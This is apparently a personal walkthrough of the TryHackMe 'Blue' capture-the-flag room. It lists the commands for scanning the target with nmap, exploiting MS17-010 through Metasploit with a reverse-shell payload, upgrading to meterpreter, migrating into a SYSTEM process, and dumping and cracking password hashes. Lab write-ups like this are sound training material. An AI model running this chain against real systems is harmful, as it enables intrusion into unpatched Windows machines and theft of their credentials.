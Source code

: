 ![image](https://github.com/user-attachments/assets/3771b37e-8ec0-42b7-9f58-333254073a5e)

# Blue
- You're my boy BLUE!
- https://tryhackme.com/room/blue

## Recon
### Nmap scan
    nmap -sV --script vuln -v 10.10.209.236
![image](https://github.com/user-attachments/assets/bb635019-1413-4015-be4d-72af3fb19641)

- A crucial step is scanning with the Vuln script category, which led us to find CVE-2017–0143. CVE-2017–0143 This information is available on Exploit-DB.

## Gain Access
### Start metasploit
    msfconsole
    search ms17-010
    use 0
    options
    set RHOSTS <IP>
    set payload windows/x64/shell/reverse_tcp
    run
## Escalate
background using ```CTRL-Z```
```use post/multi/manage/shell_to_meterpreter```
```options```
```sessions```
```set sessions <session_id>```
```set LHOST tun0```
```run```
    Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command ‘shell’ and run ‘whoami’. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again.

Run the ps command to view the running processes on the machine.

    List all of the processes running via the ‘ps’ command. Just because we are system doesn’t mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).
```ps```
migrate <PID> #recommend spoolsv.exe printer service because it is reliable and NT Authority\System

## Cracking
    hashdump
- Crack using crackstation.net

## Find Flags
- Common places are C:\ | documents | desktop
- search -f flag2.txt
